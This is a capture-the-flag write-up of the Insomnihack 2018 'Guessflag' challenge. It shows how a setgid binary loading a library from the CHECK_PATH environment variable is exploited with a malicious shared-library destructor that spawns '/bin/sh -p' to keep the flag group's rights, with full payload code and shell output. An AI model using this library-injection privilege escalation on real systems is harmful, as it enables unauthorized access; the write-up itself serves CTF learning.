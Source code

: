 ### Guessflag
Guessflag was a **warmup pwn** at insomnihack 2018. It was a **fairly easy challenge**, but we struggled a lot on small details.

### The challenge
We were given a ssh connection on a remote server, and the challenge was in `/home/flag` .
There were a shared lib, dowin.so, the main binary, guessflag, and a text file, flag.txt.
**We can see that guessflag was setgid and the group "flag" was the owner of both the flag.txt file and the guessflag binary**.
```
user1@insomniak:/home/flag$ ls -al
total 32
drwxr-xr-x  2 root root  4096 Mar 26 13:18 .
drwxr-xr-x 12 root root 4096 Mar 26 12:50 ..
-rwxr-xr-x  1 root root  7512 Mar 26 12:50 dowin.so
-rwxr-sr-x  1 root flag  8520 Mar 26 12:51 guessflag
-rw-r-----  1 root flag   262 Mar 26 13:18 flag.txt
```
With those informations, we know that we probably have to exploit the guessflag binary to run commands as the "flag" group and cat our flag.txt file, which certainly contain our flag.

### Analysis
Lets start with some analysis of the binary.

First we look at the output of the file command. 
```
user1@insomniak:/home/flag$ file guessflag                                                                                                                      
guessflag: setgid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, not stripped
```
It tell us that it is **compiled as a dynamic binary** , which means it rely on the libc of the remote server for standard functions like printf and that stuff. We could hook a standard function using  [LD_PRELOAD trick](https://www.goldsborough.me/c/low-level/kernel/2016/08/29/16-48-53-the_-ld_preload-_trick/) , but from our little experience , we known that **LD_PRELOAD is ignored when the binary is setuid or setgid**, which is the case here.

So let's move on and look at ltrace's output.
```
user1@insomniak:/home/flag$ ltrace ./guessflag                                                                                                                    
puts("Can you guess the flag ?"Can you guess the flag ?
)                                                                                        = 25
+++ exited (status 255) +++
```
Nothing fancy here, let's try with an argument.
```
user1@insomniak:/home/flag$ ltrace ./guessflag arg                                                                                                                   
puts("Can you guess the flag ?"Can you guess the flag ?
)                                                                                        = 25
getenv("CHECK_PATH")                                                                                                    = nil
snprintf("(null)/dowin.so", 1024, "%s/dowin.so", nil)                                                                   = 15
dlopen("(null)/dowin.so", 1)                                                                                            = 0
+++ exited (status 255) +++
```

Uuh! Looks like it **first check  if we have an argument , and if there is one it try to get the content of the environnement variable CHECK_PATH**.
Let's try to set this variable : 
```
user1@insomniak:/home/flag$ CHECK_PATH=test ltrace ./guessflag arg                                                                                                   
puts("Can you guess the flag ?"Can you guess the flag ?
)                                                                                        = 25
getenv("CHECK_PATH")                                                                                                    = "test"
snprintf("test/dowin.so", 1024, "%s/dowin.so", "test")                                                                  = 13
dlopen("test/dowin.so", 1)                                                                                              = 0
+++ exited (status 255) +++
```

Yup, so it looks like it **append the content of the environnement var CHECK_PATH to the string "/dowin.so" and then try to dlopen it**. Which means that if we set the CHECK_PATH variable to something like `/tmp/pld` and create our own dowin.so in this directory, it will load it !

### Exploit

We've never met the dlopen function before, but it's a really easy-to-understand function.
It simply open the given shared file and give you the ability to execute the function it provide.

The problem here is that we can't create a random function, and simply load our library. Our function will never be called. 

Here we struggled a bit, and Geluchat gave us a neat trick : **you can use the [.fini section](http://l4u-00.jinr.ru/usoft/WWW/www_debian.org/Documentation/elf/node3.html) by creating a destructor in our dowin.so, and it will execute it when the lib is unloaded** (e.g when the binary exit).

So it gave use a payload like this :

```c
#include <unistd.h>

void begin (void) __attribute__((destructor));

void begin (void) {
	system("id && whoami");
}


```

We setted up the exploit in tmp : 

```
user1@insomniak:/home/flag$ mkdir /tmp/pld && cd /tmp/pld
user1@insomniak:/tmp/pld$ gcc -o dowin.so -fPIC -shared payload.c
user1@insomniak:/tmp/pld$ export CHECK_PATH=/tmp/pld ./guessflag a
Can you guess the flag ?
uid=1005(user1) gid=985(users) groups=985(users)
user1
```

Yeah nice , our destructor got executed !
But wait ... it dropped the rights :( Why this ?

We struggled like 2 hours on this, and we then asked for a bit of help to a Securimag member.
**He told us that on this machine, /bin/sh was a symlink to /bin/bash, which by default drop  the setgid and setuid rights when it is called**.
And with a `man system` , we can easily figure out that `system()` simply call `/bin/sh` with it's argument.

He also told us that **the '-p' argument on /bin/sh prevent it to drop the rights**.

That gave us our second payload : 

```c
void begin (void) __attribute__((destructor));

void begin (void) {
	char *envp[] = { NULL };
	char *argv[] = { "/bin/sh", "-p", NULL };
	execve("/bin/sh", argv, envp);
}
```

```
user1@insomniak:/tmp/pld$ gcc -o dowin.so -fPIC -shared payload.c
user1@insomniak:/tmp/pld$ export CHECK_PATH=/tmp/pld ./guessflag a
Can you guess the flag ?
user1@insomniak:/tmp/pld$ id
uid=1005(user1) gid=985(users) groups=985(users), 990(flag)
```

Yey ! We have a shell with the `flag` group :D

### Flag
```
user1@insomniak:/tmp/pld$ cat /home/flag/flag.txt
INS{th4t_library_was_usele$$}
```
